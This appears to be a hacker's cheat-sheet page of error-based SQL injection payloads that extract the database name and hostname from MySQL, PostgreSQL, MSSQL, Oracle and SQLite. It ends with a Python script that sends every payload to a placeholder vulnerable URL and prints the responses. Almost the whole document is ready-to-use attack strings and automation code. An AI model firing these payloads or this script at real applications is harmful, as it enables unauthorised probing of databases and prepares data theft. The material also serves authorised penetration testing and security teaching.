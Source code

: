 ```yaml
---
title: "Extracting DB Name with Forced Errors"
tags: ['Hacking', 'SQLi']
date: 2024-10-03
toc: true
unlisted: true
---
```


## MySQL

### Extracting DB Name

Use error-based injection to extract the database name.

```
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT database()), 0x3a, FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) --
```

### Extracting Hostname

Use error-based injection to extract the hostname.

```
' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT @@hostname), 0x3a, FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) --
```

## PostgreSQL

### Extracting Database Name

Use error-based injection to extract the current database name.

```
' AND 1=CAST((SELECT current_database()) AS INT) --
```

### Extracting Hostname

PostgreSQL does not directly provide a function for hostname, but you can use other metadata queries or built-in extensions like `inet_server_addr`.

```
' AND 1=CAST((SELECT inet_server_addr()) AS INT) --
```

## MSSQL

### Extracting Database Name

Use error-based injection to extract the current database name.

```
; SELECT 1 WHERE 1=CAST(DB_NAME() AS INT) --
```

### Extracting Hostname

Use error-based injection to extract the server hostname.

```
; SELECT 1 WHERE 1=CAST(@@servername AS INT) --
```

## Oracle

### Extracting Database Name

Use error-based injection to extract the current database name.

```
' UNION SELECT NULL FROM dual WHERE 1=CAST((SELECT ora_database_name FROM dual) AS INT) --
```

### Extracting Hostname

Use error-based injection to extract the hostname.

```
' UNION SELECT NULL FROM dual WHERE 1=CAST((SELECT SYS_CONTEXT('USERENV', 'HOST') FROM dual) AS INT) --
```

## SQLite

### Extracting Database Name

SQLite uses a single database per file, but you can force errors to reveal database-related information.

```
' AND 1=CAST((SELECT name FROM sqlite_master WHERE type='table' LIMIT 1) AS INT) --
```

### Extracting Hostname

SQLite does not inherently have a hostname since it’s a file-based database. However, you can infer file paths which might give clues.

```
' AND 1=CAST((SELECT file FROM pragma_database_list LIMIT 1) AS INT) --
```

## Python Script to Automate the Process

Automate the error extraction process:

```
import requests

url = "http://example.com/vulnerable.php"
payloads = [
    # MySQL
    "' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT database()), 0x3a, FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- ",
    "' AND (SELECT 1 FROM (SELECT COUNT(*), CONCAT((SELECT @@hostname), 0x3a, FLOOR(RAND(0)*2)) x FROM information_schema.tables GROUP BY x) y) -- ",
    # PostgreSQL
    "' AND 1=CAST((SELECT current_database()) AS INT) -- ",
    "' AND 1=CAST((SELECT inet_server_addr()) AS INT) -- ",
    # MSSQL
    "; SELECT 1 WHERE 1=CAST(DB_NAME() AS INT) -- ",
    "; SELECT 1 WHERE 1=CAST(@@servername AS INT) -- ",
    # Oracle
    "' UNION SELECT NULL FROM dual WHERE 1=CAST((SELECT ora_database_name FROM dual) AS INT) -- ",
    "' UNION SELECT NULL FROM dual WHERE 1=CAST((SELECT SYS_CONTEXT('USERENV', 'HOST') FROM dual) AS INT) -- ",
    # SQLite
    "' AND 1=CAST((SELECT name FROM sqlite_master WHERE type='table' LIMIT 1) AS INT) -- ",
    "' AND 1=CAST((SELECT file FROM pragma_database_list LIMIT 1) AS INT) -- ",
]

for payload in payloads:
    response = requests.get(url, params={"id": payload})
    print(f"Payload: {payload}")
    print(f"Response: {response.text}\n") 
```

